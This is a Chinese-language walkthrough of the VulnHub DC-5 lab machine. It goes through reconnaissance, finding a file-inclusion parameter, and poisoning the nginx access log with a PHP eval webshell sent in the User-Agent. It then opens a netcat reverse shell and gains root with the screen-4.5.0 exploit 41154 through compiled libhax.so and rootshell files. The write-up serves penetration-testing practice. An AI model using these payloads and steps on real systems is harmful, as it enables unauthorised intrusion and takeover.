

## 靶机地址

https://www.vulnhub.com/entry/dc-5,314/


## 信息收集

### 主机探活

```
arp-scan -i --interface=eth0
```


-l 等效于 --localnet

- 扫描当前子网下的主机

--interface指定网卡进行扫描

- 当前指定使用eth0网卡进行扫描

确定目标主机IP

192.168.6.28


### nmap扫描目标主机开放端口

```
nmap -Pn -sS -p- -sV 192.168.6.28
```


- 80/tcp: 运行着 nginx 1.6.2，这是一个常见的Web服务。

- 111/tcp：运行着 rpcbind 服务，版本 2-4（RPC #100000）
- 通常用于绑定和管理远程过程调用（RPC）服务。

- 48987/tcp:：运行着 status服务，版本 1（RPC #100024）
- 这是一个与RPC服务相关的状态监控接口。


### 访问192.168.6.28


### whatweb识别网站信息

```
whatweb -v 192.168.6.28
```


nginx/1.6.2

有一个留言板


随便提交内容


发现每次刷新下方时间戳发生改变

（存在文件包含的线索）


### dirsearch扫描网站目录

```
dirsearch -u 192.168.6.28
```


分别访问四个php文件

发现footer.php显示时间


可以理解成

该页面调用footer.php文件

但是具体参数不知道，尝试爆破

爆破参数

 

在thankyou.php页面下


抓包

放入测试器

加入参数名以及参数值




选择参数名密码字典

（我手动添加了参数值：footer.php）

爆破

得到参数名为file


已知当前web服务器为nginx


### 尝试日志注入

nginx文件日志：

/var/log/nginx/access.log


成功读取日志信息


尝试注入木马（这里木马写的有点问题）

应该往UA头中写入一句话木马，而后续要尝试蚁剑连接的话要写成POST或REQUEST提交参数

即

```
<?php @eval($_POST[a]);?>
```


状态码200，注入成功

 

### 蚁剑连接


进入虚拟终端

发现目标主机上有nc


### nc反弹shell

kali监听5656端口

```
nc -lvvp 5656
```


成功获取反弹shell


## 提权

### python转换终端

```
python -c "import pty;pty/spawn('/bin/bash')"
```


### 尝试sudo -l

```
sudo -l
```


### 尝试suid提权

```
find / -perm -u=s -type f 2>/dev/null
```


发现有一个screen-4.5.0

GNU Screen是一款由GNU计划开发的用于命令行终端切换的自由软件。用户可以通过该软件同时连接多个本地或远程的命令行会话，并在其间自由切换。GNU Screen可以看作是窗口管理器的命令行界面版本。它提供了统一的管理多个会话的界面和相应的功能。


### 搜索相关漏洞

```
searchsploit screen 4.5.0
```


有一个exp，下载

```
searchsploit -m 41154
```


 

### 查看exp

#### 将脚本分成三部分


#### 按照exp给的流程进行编译

libhax.c


编译文件

```
gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
```


rootshell.c


编译rootshell.c

```
gcc -o ./rootshell ./rootshell.c
```


screen.sh

去掉exp中无用的部分


共得到三个文件：

libhax.so

rootshell

screen.sh

传入目标主机

可以利用蚁剑直接传入

运行screen.sh后报错


（本地编译器版本过高）

 

解决：

将.c文件传入目标主机，在目标主机进行编译

成功执行

获得root权限


第二次

脚本文件，直接上传到靶机tmp目录下

赋予执行权限执行即可提权成功

